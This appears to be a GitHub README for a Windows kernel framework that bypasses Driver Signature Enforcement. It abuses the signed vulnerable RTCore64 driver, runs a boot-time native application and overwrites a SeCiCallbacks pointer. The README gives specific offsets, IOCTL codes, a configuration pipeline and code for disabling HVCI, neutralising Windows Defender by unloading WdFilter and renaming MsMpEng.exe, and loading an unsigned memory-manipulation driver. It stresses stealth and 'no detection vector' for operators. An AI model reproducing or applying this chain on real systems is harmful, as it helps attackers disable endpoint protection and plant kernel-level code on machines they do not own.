## 🚧 Work in Progress

**README.md completion:** Tonight (detailed installation guide and technical documentation)

**Video demonstration:** [Watch the framework in action](https://youtu.be/6VWmxrt4wNE)

---

## Configuration Pipeline (`drivers.ini`)

The `drivers.ini` file defines a sequential execution pipeline for driver operations. **Order matters** - especially when working with kernel hooking drivers (keyloggers, filter drivers) that must be unloaded before the signed vulnerable driver.

**Current configuration workflow:**

1. **Load** `RTCore64.sys` (signed vulnerable driver)
2. **Patch** DSE via callback table manipulation
3. **Load** `omnidriver.sys` (unsigned payload)
4. **Unpatch** DSE (restore original callbacks)
5. **Unload** `RTCore64.sys`
6. **Unload** `WdFilter` (Windows Defender filter driver)
7. **Rename** `MsMpEng.exe` → `MsMpEng_.exe` (disable Windows Defender)

### Windows Defender Neutralization

The framework demonstrates security software bypass by:
- Unloading `WdFilter.sys` (kernel filter driver)
- Renaming the main executable to prevent service startup
- Defender remains disabled until manual restoration

**Manual restoration after boot:**
```cmd
cd C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.25090.3009-0
ren MsMpEng_.exe MsMpEng.exe
```
After restoring the executable name, simply open **Virus & threat protection** in Windows Security - all services and drivers will restart automatically.

⚠️ **Critical:** When working with kernel hooking drivers, ensure proper unload sequence in `drivers.ini` to avoid conflicts with the signed vulnerable driver.
## Windows Early Boot DSE Bypass Solution


[]()
[]()
[]()
[]()

---

## 🎯 Overview

KernelResearchKit represents a comprehensive research framework for analyzing and manipulating the Windows kernel integrity model. The project demonstrates a sophisticated, multi-vector approach to Driver Signature Enforcement (DSE) bypass through surgical modification of kernel code integrity callbacks during the Windows boot sequence.

### Key Distinguishing Features

**Primary Innovation: Native Subsystem Boot-Time Execution**  
Unlike conventional post-boot kernel exploits, this framework achieves its objective through a native substystem application (written in C) that executes during the Windows boot process via the `BootExecute` registry mechanism. This approach operates in a pristine, high-privilege environment before security subsystems initialize, providing unparalleled control over system integrity configurations.

**Dual-Path Architecture**  
The framework provides two independent execution pathways:
- **Boot-time path**: native subsystem application application executing in the Native subsystem (pre-Win32)
- **Runtime path**: C++ application operating in fully-booted system context

Both paths achieve identical outcomes through different technical approaches, demonstrating the versatility of the underlying vulnerability class.

**Technical Elegance: The ZwFlushInstructionCache Technique**  
Rather than crude binary patching or configuration flag manipulation, the framework performs a single, precise memory write operation: replacing the `CiValidateImageHeader` callback pointer in the kernel's `SeCiCallbacks` table with a pointer to `ZwFlushInstructionCache`. This exported kernel function possesses an identical signature and return behavior, effectively neutering signature validation while maintaining system stability.

**Anti-Loop Protection System**  
The framework implements a novel dual-layer protection mechanism against infinite reboot loops when handling Hypervisor-Protected Code Integrity (HVCI). The reboot mechanism transitioned from a minimal 592-byte assembly stub to CMD-based invocation (shutdown /r /t ...) to mitigate false-positive AV detections while maintaining operational integrity.

---

## 🏗️ Architecture

The framework comprises three synergistic components, each serving a distinct role in the exploitation chain:


### Component 1: BootBypass (native subsystem application) - ⭐ CORE INNOVATION

#### Execution Context and Privilege Model

BootBypass represents the architectural centerpiece of this research. It is a native application compiled against the Native API (`ntdll.lib` only, no `kernel32.dll` dependencies) and configured with the `/SUBSYSTEM:NATIVE` linker flag. This configuration enables execution in the Windows Native subsystem, a pre-Win32 environment with the following characteristics:

**Execution Timeline Position:**


**Privilege Characteristics:**
- **User Context**: LocalSystem (NT AUTHORITY\SYSTEM)
- **Integrity Level**: System (highest)
- **Token Privileges**: All privileges available
- **API Surface**: Native API only (Nt* and Rtl* functions)
- **Dependency State**: Minimal - most system services not yet started

#### The ZwFlushInstructionCache Technique

The core patching operation replaces a single function pointer in kernel memory. The elegance of this approach derives from careful selection of the replacement function:

**Function Signature Compatibility Analysis:**

Original Callback (CiValidateImageHeader):
```
NTSTATUS CiValidateImageHeader(
    PVOID ImageBase,
    SIZE_T ImageSize,
    ...
);
```

Replacement Function (ZwFlushInstructionCache):
```
NTSTATUS ZwFlushInstructionCache(
    HANDLE ProcessHandle,
    PVOID BaseAddress,
    SIZE_T Length
);
```

**Key Compatibility Properties:**
1. **Return Type**: Both return `NTSTATUS`
2. **Calling Convention**: Both use `__stdcall` (x64 fastcall)
3. **Parameter Count**: Compatible stack frame
4. **Return Behavior**: `ZwFlushInstructionCache` always returns `STATUS_SUCCESS` for most input combinations
5. **Side Effects**: Instruction cache flush has no adverse impact on driver loading logic

**Memory Patching Operation:**
```
Kernel Base Address: ntoskrnl.exe @ 0xFFFFF80000000000 (example)
SeCiCallbacks Table: Base + 0xF04780
Target Callback Slot: SeCiCallbacks + 0x20 (CiValidateImageHeader)
Replacement Address: Base + 0x69BFD0 (ZwFlushInstructionCache)

Operation: 
  Original:  [SeCiCallbacks + 0x20] = 0xFFFFF80000A1B2C0 (CiValidateImageHeader)
  Patched:   [SeCiCallbacks + 0x20] = 0xFFFFF8000069BFD0 (ZwFlushInstructionCache)
```

**Consequences of the Patch:**

When the Windows kernel attempts to load a driver, it invokes the callback chain in `SeCiCallbacks`. With our patch in place:

1. **Signature Validation Bypassed**: The call to `CiValidateImageHeader` never occurs
2. **Success Always Returned**: `ZwFlushInstructionCache` returns `STATUS_SUCCESS`
3. **No Integrity State Change**: The `g_CiEnabled` flag remains set (CI appears active)
4. **No Detection Vector**: Security monitoring tools observe "normal" CI state
5. **System Stability**: No crashes or instability from the patch

This technique is superior to traditional approaches (e.g., patching `ci!g_CiOptions` or disabling CI globally) because:
- **Surgical precision**: Only one function pointer modified
- **Stealth**: CI subsystem appears fully operational
- **Stability**: No corruption of critical data structures
- **Reversibility**: Original callback preserved in state file

#### Anti-Loop Protection: Dual-Layer Defense in Depth

A critical challenge in kernel integrity manipulation is handling Hypervisor-Protected Code Integrity (HVCI / Memory Integrity). When Memory Integrity (HVCI) is enabled, DSE bypass attempts may succeed, but unsigned driver loading will trigger a system crash (BSOD). The solution requires disabling HypervisorEnforcedCodeIntegrity (HVCI), which mandates a system reboot. This creates a potential infinite loop scenario:
```
Boot 1: HVCI=1 → Disable HVCI → Reboot
Boot 2: HVCI=0 → Skip HVCI disable → Continue normal execution
```

The framework implements a **dual-layer protection mechanism** to prevent this loop:

**Layer 1: native subsystem applicationleanup Routines (Primary Defense)**

Immediately upon execution, before any HVCI detection logic, BootBypass performs cleanup:
```c
// From BootBypass.c - NtProcessStartup() function
// Lines 754-757
RemoveThemesDependency();
RemoveRebootGuardianService();
```

**Execution Sequence:**


**Technical Implementation:**

The cleanup functions use Native API calls to remove artifacts from the previous boot cycle:
```c
NTSTATUS RemoveThemesDependency(void) {
    UNICODE_STRING usKeyPath;
    HANDLE hKey = NULL;
    
    // Open Themes service registry key
    RtlInitUnicodeString(&usKeyPath,
        L"\\Registry\\Machine\\System\\CurrentControlSet\\Services\\Themes");
    
    NtOpenKey(&hKey, KEY_WRITE, ...);
    
    // Delete the DependOnService value
    RtlInitUnicodeString(&usValueName, L"DependOnService");
    NtDeleteValueKey(hKey, &usValueName);
    
    NtFlushKey(hKey);  // Commit to disk immediately
    NtClose(hKey);
}
```

**Layer 2: RebootGuardian Self-Destruct Service (Failsafe)**

If the system reboots before cleanup can occur (e.g., power failure, crash), a secondary mechanism ensures cleanup:
```c
// From BootBypass.c - CreateRebootGuardianService() function
// Line 481
WCHAR imagePath[] = L"cmd.exe /c \"sc delete RebootGuardian & "
                     "reg delete HKLM\\System\\CurrentControlSet\\Services\\Themes "
                     "/v DependOnService /f & shutdown /r /t 0 /f\"";
```

**Service Configuration:**
- **Type**: `SERVICE_WIN32_OWN_PROCESS | SERVICE_INTERACTIVE_PROCESS` (0x110)
- **Start Type**: `SERVICE_DEMAND_START` (0x3)
- **ImagePath**: Command chain (sc + reg + shutdown)
- **Dependencies**: None (independent service)

**Dependency Chain:**
```
Themes Service → DependOnService → RebootGuardian
```

When the system reboots and services start, the Service Control Manager (SCM) attempts to start the Themes service. The Themes service has a dependency on RebootGuardian, so SCM starts RebootGuardian first. 
Following system restart, the Service Control Manager (SCM) attempts to start the Themes service. Since Themes depends on RebootGuardian, SCM initiates RebootGuardian first. The reboot mechanism transitioned from kernel-native NtShutdownSystem to user-mode CMD invocation due to race conditions: kernel-space registry modifications were not persisted before shutdown completion, despite explicit NtFlushKey/ZwFlushKey synchronization attempts. User-mode shutdown provides sufficient time for Registry hive commit operations to complete, ensuring persistent state across reboots.

**RebootGuardian Execution:**


**Complete Three-Boot Sequence:**
```mermaid
graph TD
    subgraph "Boot 1: HVCI Detection"
        A1[BootBypass Executes] --> A2[Cleanup Layer 1: No-op - Nothing to clean]
        A2 --> A3[CheckAndDisableHVCI]
        A3 --> A4{HVCI=1?}
        A4 -->|Yes| A5[Set HVCI=0 in Registry]
        A5 --> A6[Create RebootGuardian Service]
        A6 --> A7[Add Themes Dependency]
        A7 --> A8[skipPatch = TRUE]
        A8 --> A9[Skip DSE Patching]
        A9 --> A10[System Continues Boot]
    end
    
    subgraph "Boot 2: Guardian Execution"
        B1[System Starting] --> B2[SCM Loads Services]
        B2 --> B3[Themes Service Start Requested]
        B3 --> B4[Dependency: RebootGuardian]
        B4 --> B5[RebootGuardian Starts]
        B5 --> B6[cmd.exe Chain Executes]
        B6 --> B7[Delete RebootGuardian]
        B7 --> B8[Delete Themes Dependency]
        B8 --> B9[shutdown /r /t 0 /f]
        B9 --> B10[System Reboots]
    end
    
    subgraph "Boot 3: Clean Operation"
        C1[BootBypass Executes] --> C2[Cleanup Layer 1: Success]
        C2 --> C3[RemoveThemesDependency - Already gone]
        C3 --> C4[RemoveRebootGuardianService - Already gone]
        C4 --> C5[CheckAndDisableHVCI]
        C5 --> C6{HVCI=1?}
        C6 -->|No| C7[skipPatch = FALSE]
        C7 --> C8[Normal DSE Patching]
        C8 --> C9[Load Vulnerable Driver]
        C9 --> C10[Patch SeCiCallbacks]
        C10 --> C11[Load OmniDriver]
        C11 --> C12[RestoreHVCI - Set Enabled=1 cosmetically]
        C12 --> C13[Mission Success - System operational]
        C13 -.->|If restart| D1[Boot 4: HVCI=1 physical - cycle repeats]
    end
    
    A10 --> B1
    B10 --> C1
    
    style A5 fill:#ff6b6b
    style A6 fill:#ff6b6b
    style B6 fill:#ffeb3b
    style C8 fill:#4ecdc4
    style C12 fill:#45b7d1
```

The system is now operational: HVCI physically disabled but registry shows Enabled=1 (satisfies cosmetic AV checks), DSE bypassed, unsigned driver loaded, no Guardian artifacts remaining.

CRITICAL OPERATIONAL NOTE: The system remains in this functional state as long as it continues running or performs normal shutdowns. However, if the system performs a full reboot, HVCI will physically re-enable due to the Enabled=1 registry value set by RestoreHVCI. This triggers a return to Boot One state, initiating the three-boot sequence again. The framework operates on the assumption that once DSE is bypassed and the unsigned driver is loaded, the operator's objective is achieved and system reboots are either unnecessary or intentionally managed. For persistent deployments requiring frequent reboots, operators should either maintain HVCI disabled by removing the RestoreHVCI call, or implement additional persistence mechanisms that survive the three-boot cycle.

**Why Dual-Layer Protection is Essential:**

| Scenario | Layer 1 (Cleanup) | Layer 2 (Guardian) | Result |
|----------|-------------------|-------------------|--------|
| Normal boot after HVCI disable | ✅ Executes, cleans artifacts | ⚠️ Service already deleted | Clean state |
| Power failure during Boot 2 | ❌ Doesn't execute | ✅ Service still exists, will execute next boot | Clean state after next boot |
| BootBypass crashes | ❌ Cleanup doesn't run | ✅ Guardian still triggers | Clean state |
| Manual intervention | ✅ Works regardless | ✅ Works regardless | Redundancy |

This defense-in-depth approach ensures system stability regardless of failure modes.

#### State Persistence and Restoration

The framework implements a sophisticated state management system that preserves the original DSE state across sessions, enabling complete restoration of system integrity protections.

**State File Structure (drivers.ini):**

The configuration file serves dual purposes:
1. **Configuration**: Defines actions to perform (load/unload/patch/rename operations)
2. **State Storage**: Preserves original callback addresses for restoration

**Example drivers.ini with DSE_STATE section:**
```ini
; === Driver Operations ===
[Driver1]
Action=LOAD
ServiceName=RTCore64
ImagePath=\SystemRoot\System32\drivers\RTCore64.sys
CheckIfLoaded=YES

[Patch1]
Action=PATCH_DSE
DriverDevice=\Device\RTCore64
IoControlCode_Read=0x80002048
IoControlCode_Write=0x8000204C
Offset_SeCiCallbacks=0xF04780
Offset_Callback=0x20
Offset_SafeFunction=0x69BFD0

; === State Section (Automatically Generated) ===
[DSE_STATE]
OriginalCallback=0xFFFFF80000A1B2C0
```

**State Persistence Flow:**


**Restoration Operation:**

During system cleanup or uninstall, the framework reads the saved state:
```c
BOOLEAN LoadStateSection(ULONGLONG* outCallback) {
    PWSTR fileContent = NULL;
    
    // Read entire INI file
    ReadIniFile(STATE_FILE_PATH, &fileContent);
    
    // Parse for [DSE_STATE] section
    // Extract OriginalCallback value
    // Convert hex string to ULONGLONG
    
    if (found) {
        *outCallback = parsedValue;
        return TRUE;
    }
    return FALSE;
}
```

**Restoration Process:**


**Key Design Decisions:**

1. **UTF-16 LE with BOM**: File encoding matches Windows registry export format
2. **Append-Only During Save**: Preserves existing configuration while adding state
3. **Section-Based Removal**: RemoveStateSection() surgically removes only [DSE_STATE]
4. **Idempotent Operations**: Multiple save/restore cycles produce consistent results

---

### Component 2: drvloader (C++ Runtime Alternative)

While BootBypass operates in the pristine boot environment, drvloader provides an alternative execution pathway for post-boot DSE manipulation. This component demonstrates that the same vulnerability class can be exploited from a fully-booted system context.

#### Architectural Differences from BootBypass

**Execution Context Comparison:**

| Aspect | BootBypass (native subsystem application) | drvloader (C++) |
|--------|----------------------|-----------------|
| **Subsystem** | Native (pre-Win32) | Windows (Win32) |
| **API Surface** | Nt* and Rtl* only | Win32 API + Native API |
| **Execution Timing** | During boot (SMSS phase) | After full boot |
| **Privileges** | Inherent SYSTEM | Requires Administrator + elevation |
| **Dependencies** | Minimal (ntdll only) | Full C++ runtime |
| **UI Capabilities** | Text output via NtDisplayString | Full console I/O with UTF-8 |
| **Defense State** | Not yet initialized | Fully active (AV, EDR, HVCI) |
| **Use Case** | Persistent deployment | On-demand, interactive use |

#### Technical Implementation

**Memory Integrity (HVCI) Detection:**

Unlike BootBypass which can disable HVCI and reboot, drvloader must respect active HVCI state:
```cpp
bool CheckAndDisableMemoryIntegrity() {
    HKEY hKey;
    RegOpenKeyExW(HKEY_LOCAL_MACHINE, 
        L"SYSTEM\\CurrentControlSet\\Control\\DeviceGuard\\"
        L"Scenarios\\HypervisorEnforcedCodeIntegrity",
        0, KEY_READ | KEY_WRITE, &hKey);
    
    DWORD enabled = 0;
    DWORD dataSize = sizeof(DWORD);
    RegQueryValueExW(hKey, L"Enabled", nullptr, nullptr, 
                     (LPBYTE)&enabled, &dataSize);
    
    if (enabled == 1) {
        std::wcout << L"[!] WARNING: Memory Integrity is ACTIVE\n";
        std::wcout << L"[!] DSE bypass will succeed, but driver "
                      L"loading will cause BSOD\n";
        std::wcout << L"[!] Disable and reboot? (Y/N): ";
        
        // User interaction for HVCI disable
        // If confirmed: disable, initiate reboot, exit process
    }
    
    RegCloseKey(hKey);
}
```

**Dynamic Kernel Base Resolution:**

Rather than relying on boot-time module enumeration, drvloader uses user-mode APIs:
```cpp
std::optional DrvLoader::GetNtoskrnlBase() {
    std::vector drivers(1024);
    DWORD needed = 0;
    
    // Enumerate all loaded kernel drivers
    EnumDeviceDrivers(drivers.data(), 
                     static_cast(drivers.size() * sizeof(LPVOID)), 
                     &needed);
    
    // Find ntoskrnl.exe by name comparison
    for (const auto& driver : drivers) {
        WCHAR driverName[MAX_PATH];
        if (GetDeviceDriverBaseNameW(driver, driverName, MAX_PATH) && 
            wcscmp(driverName, L"ntoskrnl.exe") == 0) {
            return reinterpret_cast(driver);
        }
    }
    
    return std::nullopt;
}
```

**Interactive Status Checking:**

drvloader provides real-time DSE state inspection:
```cpp
bool DrvLoader::CheckDSEStatus(bool& isPatched) {
    // 1. Install and start vulnerable driver
    InstallAndStartDriver();
    
    // 2. Open device handle
    hDriver = CreateFileW(L"\\\\.\\RTCore64", 
                         GENERIC_READ | GENERIC_WRITE, ...);
    
    // 3. Locate ntoskrnl base
    auto ntBase = GetNtoskrnlBase();
    
    // 4. Calculate addresses
    uint64_t seCiCallbacks = *ntBase + OFFSET_SECICALLBACKS;
    uint64_t safeFunction = *ntBase + OFFSET_ZWFLUSHINSTRUCTIONCACHE;
    uint64_t callbackAddress = seCiCallbacks + 0x20;
    
    // 5. Read current callback
    auto currentCallback = ReadMemory64(callbackAddress);
    
    // 6. Compare with safe function address
    isPatched = (*currentCallback == safeFunction);
    
    // 7. Display status
    std::wcout << L"Current CiValidateImageHeader: 0x" 
               << std::hex << *currentCallback << L"\n";
    std::wcout << L"DSE Status: " 
               << (isPatched ? L"PATCHED" : L"ACTIVE") << L"\n";
    
    // 8. Cleanup
    Cleanup();
    StopAndRemoveDriver();
    
    return true;
}
```

**User-Mode Driver Management:**

drvloader handles the complete driver lifecycle using Service Control Manager APIs:
```cpp
bool DrvLoader::InstallAndStartDriver() {
    // 1. Stop and remove any existing instance
    StopAndRemoveDriver();
    Sleep(1000);  // Allow driver unload to complete
    
    // 2. Open SCM
    SC_HANDLE hSCM = OpenSCManagerW(nullptr, nullptr, 
                                    SC_MANAGER_ALL_ACCESS);
    
    // 3. Create service
    SC_HANDLE hService = CreateServiceW(
        hSCM,
        L"RTCore64",                          // Service name
        L"RTCore64",                          // Display name
        SERVICE_ALL_ACCESS,
        SERVICE_KERNEL_DRIVER,                // Driver type
        SERVICE_SYSTEM_START,                 // Start type
        SERVICE_ERROR_NORMAL,
        L"System32\\drivers\\RTCore64.sys",  // Image path
        nullptr, nullptr, nullptr, nullptr, nullptr
    );
    
    // 4. Start service
    StartServiceW(hService, 0, nullptr);
    
    CloseServiceHandle(hService);
    CloseServiceHandle(hSCM);
    
    Sleep(500);  // Allow driver initialization
    return true;
}
```

#### Use Cases and Operational Scenarios

**Scenario 1: Development and Testing**
- Developers can test DSE bypass without rebooting
- Immediate feedback on patch success/failure
- Ability to restore and re-patch without system restart

**Scenario 2: Forensics and Analysis**
- Security researchers can examine live system state
- Compare patched vs. unpatched kernel memory
- Extract and analyze callback addresses

**Scenario 3: On-Demand Driver Loading**
- Load unsigned drivers for specific tasks
- Restore protection immediately after task completion
- No persistent system modification

**Operational Flow:**


---

### Component 3: OmniDriver (Kernel Payload)

With DSE successfully bypassed, the framework deploys its final payload: OmniDriver, an unsigned kernel-mode driver that provides professional-grade memory manipulation capabilities.

#### Design Philosophy: Safety and Stability

Unlike many proof-of-concept kernel drivers that use dangerous direct memory access, OmniDriver is engineered with production-quality safety mechanisms:

**Core Safety Principles:**

1. **Process Context Attachment**: Uses `KeStackAttachProcess()` for safe cross-process access
2. **Structured Exception Handling**: Prevents system crashes from invalid memory operations
3. **Memory Probing**: Validates all user-mode addresses before access
4. **Intermediate Buffering**: Never performs direct cross-process memory copies
5. **Proper Resource Management**: Guarantees cleanup even during exceptions

#### Technical Architecture

**Safe Memory Operation Implementation:**
```c
NTSTATUS CopyMemoryBetweenProcesses(PEPROCESS SrcProc, PVOID SrcAddr,
                                   PEPROCESS DstProc, PVOID DstAddr, 
                                   SIZE_T Size) {
    KAPC_STATE apc;
    PVOID buf = NULL;
    BOOLEAN attached = FALSE;
    NTSTATUS status = STATUS_SUCCESS;

    // Allocate non-paged buffer for intermediate storage
    buf = ExAllocatePool2(POOL_FLAG_NON_PAGED, Size, POOL_TAG);
    if (!buf) return STATUS_INSUFFICIENT_RESOURCES;

    __try {
        // Phase 1: Copy from source process
        KeStackAttachProcess(SrcProc, &apc);
        attached = TRUE;
        ProbeForRead(SrcAddr, Size, sizeof(UCHAR));  // Validate source
        RtlCopyMemory(buf, SrcAddr, Size);
        KeUnstackDetachProcess(&apc);
        attached = FALSE;
        
        // Phase 2: Copy to destination process
        KeStackAttachProcess(DstProc, &apc);
        attached = TRUE;
        ProbeForWrite(DstAddr, Size, sizeof(UCHAR));  // Validate destination
